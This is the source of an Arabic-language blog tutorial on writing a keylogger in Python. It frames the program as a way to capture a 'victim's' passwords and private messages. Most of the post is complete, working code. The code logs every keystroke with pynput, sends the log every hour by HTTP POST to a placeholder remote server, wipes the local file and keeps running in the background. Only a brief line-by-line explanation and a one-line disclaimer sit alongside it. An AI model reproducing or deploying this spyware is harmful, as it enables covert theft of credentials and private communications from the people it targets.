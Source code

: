 ```yaml
---

title: "Keylogger with Python in Arabic"
date: 2025-03-24
authors: "Farouk"
layout: post
categories: Python_for_Hackers
tags: [Python, Keylogger, Security, PenetrationTesting, Hacker]
direction: rtl
image:
  path: /images/HTB/e143-keylogger.gif
  alt: image alternative tex
description: ؟ وكيف بشتغل؟ وكيف فينا نساويه بأيدنا؟ Keylogger شو هو ال
---
```

<script>
document.addEventListener("DOMContentLoaded", function () {
    // البحث عن العنصر الذي يحتوي على "By"
    let authorElement = document.querySelector("span em");

    // التأكد أن العنصر موجود
    if (authorElement) {
        authorElement.textContent = "Farouk"; // وضع الاسم داخل الوسم <em>
    }
});
</script>

<h2 id="كيف-تكتب-keylogger-بسيط-بالـ-python" dir="rtl"><span class="me-2"><strong>كيف تكتب Keylogger بسيط بالـ Python؟</strong></span><a href="#كيف-تكتب-keylogger-بسيط-بالـ-python" class="anchor text-muted"></a></h2>

<h3 id="-المقدمة" dir="rtl"><span class="me-2"><strong>💡 المقدمة</strong></span><a href="#-المقدمة" class="anchor text-muted"></a></h3>

<p dir="rtl">اول شي خلونا نفهم شو يعني <strong>Keylogger</strong> , ال <strong>Keylogger</strong> هو عبارة عن برنامج بسجل عندي ضغطات الكيبورد تبع الضحية وهيك بقدر اعرف الحسابات وكلمات السر او حتى الرسائل الخاصة.
واليوم رح نعمل سوا <strong>Keylogger بسيط بلغة Python</strong> ونتعرف على آلية عمله بالتفصيل.</p>

<p dir="rtl">📌 <strong>رح يغطي هذا الدرس:</strong></p>
<ul dir="rtl">
<li> كيف بتسجل ضغطات الكيبورد باستخدام مكتبة pynput </li>
<li> تخزين هالبيانات ضمن ملف </li>
<li> كيف نبعت هالملف من جهاز الضحية للسيرفر الخاص فينا </li>
<li> تشغيل برنامجنا  <strong>كبرنامج مستمر</strong> يضل شغال بال <strong>Background</strong> </li>
</ul>

---

<h3 id="-الكود-كامل-keylogger-بالبايثون" dir='rtl'><span class="me-2"><strong> الكود كامل: Keylogger بالبايثون</strong></span><a href="#-الكود-كامل-keylogger-بالبايثون" class="anchor text-muted"></a></h3>

```python
import requests
import threading
from pynput.keyboard import Key, Listener

# رابط السيرفر لاستقبال البيانات
SERVER_URL = "http://your-server.com/logs"  # استبدله برابط السيرفر الخاص بك

def write_to_file(key):
    """
    تخزين ضغطات المفاتيح في ملف log.txt
    """
    try:
        keydata = str(key).replace("'", "")

        # التعامل مع المفاتيح الخاصة
        if key == Key.space:
            keydata = ' '
        elif key == Key.enter:
            keydata = '\n'
        elif key in (Key.shift, Key.ctrl_l, Key.ctrl_r, Key.alt_l, Key.alt_r):
            keydata = ''  # تجاهل مفاتيح التعديل

        # حفظ المفاتيح في الملف
        with open('log.txt', 'a') as f:
            f.write(keydata)
    
    except Exception as e:
        print(f"Error: {e}")

def send_logs():
    """
    إرسال البيانات المخزنة إلى السيرفر كل ساعة
    """
    try:
        with open("log.txt", "r") as f:
            logs = f.read()
        
        if logs.strip():  # الإرسال فقط إذا كان هناك بيانات
            response = requests.post(SERVER_URL, data={"logs": logs})
            if response.status_code == 200:
                print("Logs sent successfully!")
                open("log.txt", "w").close()  # مسح الملف بعد الإرسال
            else:
                print(f"Failed to send logs, status code: {response.status_code}")
    
    except Exception as e:
        print(f"Error sending logs: {e}")

    # جدولة إعادة التنفيذ كل ساعة
    threading.Timer(3600, send_logs).start()

# بدء الإرسال التلقائي
send_logs()

# تشغيل الـ Keylogger
with Listener(on_press=write_to_file) as listener:
    listener.join()
```

---

<h3 id="تحليل-الكود" dir='rtl'><span class="me-2"><strong>تحليل الكود</strong></span><a href="#تحليل-الكود" class="anchor text-muted"></a></h3>

<p dir="rtl">📌 <strong>1. تسجيل ضغطات المفاتيح:</strong></p>
<ul dir="rtl">
  <li>مكتبة الpynput بتساعدني لتسجيل كل <strong>ضغطة زر</strong> عالكيبورد وتحليلها.</li>
  <li>المفاتيح الخاصة (مثل Shift و Enter) منتعامل معها بطريقة مناسبة.</li>
  <li><strong>منحفظ كل ضغطة عالكيبورد</strong> بملف log.txt.</li>
</ul>

<p dir="rtl">📌 <strong>2. إرسال البيانات إلى سيرفر:</strong></p>
<ul dir="rtl">
  <li>منقرأ محتوى ملف log.txt كل <strong>ساعة</strong>.</li>
  <li>إذا كان عندي بيانات، فبيبعتلي ياها ل  <strong>السيرفر</strong> عبر requests.post().</li>
  <li>بعد ما يتم الارسال بقلو <strong>يمسحلي الملف</strong> حتى مايصير عندي تكرار بالإرسال.</li>
</ul>

<p dir="rtl">📌 <strong>3. تشغيل الكي لوجر بالخلفية:</strong></p>
<ul dir="rtl">
  <li>استخدمت threading.Timer حتى يضل عم يرسل البيانات بشكل دوري.</li>
  <li>Listener بضل شغال حتى حدا <strong>يوقف البرنامج يدويًا</strong>.</li>
</ul>

<hr />


---

<h3 id="الخاتمة" dir="rtl"><span class="me-2"><strong>الخاتمة</strong></span><a href="#الخاتمة" class="anchor text-muted"></a></h3>

<p dir='rtl'>هيك صار عندك <strong>Keylogger بسيط وفعال</strong> وهاد الشي حتى تفهم آلية عمله ويكون عندك الفهم البرمجي لطريقة عمله, فلا تستخدموا بطريقة غلط🌚.</p>

<p dir='rtl'><strong>وهلق خبرني شو رأيك بالكود؟ وهل عندك أفكار لتطويره؟🤔</strong></p>


---

<script src="https://giscus.app/client.js"
        data-repo="Farouk9423/farouk9423.github.io"
        data-repo-id="R_kgDOONQTbg"
        data-category="General"
        data-category-id="DIC_kwDOONQTbs4CqhWL"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="bottom"
        data-theme="preferred_color_scheme"
        data-lang="ar"
        crossorigin="anonymous"
        async>
</script>